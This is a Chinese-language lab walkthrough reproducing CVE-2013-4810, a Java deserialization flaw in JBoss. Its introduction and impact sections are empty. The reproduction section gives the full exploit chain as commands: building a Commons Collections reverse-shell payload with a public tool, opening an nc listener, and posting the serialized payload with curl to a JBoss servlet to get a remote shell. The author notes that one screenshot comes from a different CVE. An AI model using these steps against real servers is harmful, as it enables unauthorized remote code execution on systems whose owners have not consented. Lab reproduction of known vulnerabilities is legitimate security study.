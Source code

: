 （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入http://172.26.1.151:8080/invoker/EJBInvokerServle
返回如图（图片是CVE-2015-7501的图片。差不多就是这个意思。凑活看哈\~），说明接口开发，存在反序列化漏洞

![](./resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId24.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:

    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](./resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId26.png)

打开nc界面，发现shell已经弹回来了

![](./resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId27.png)
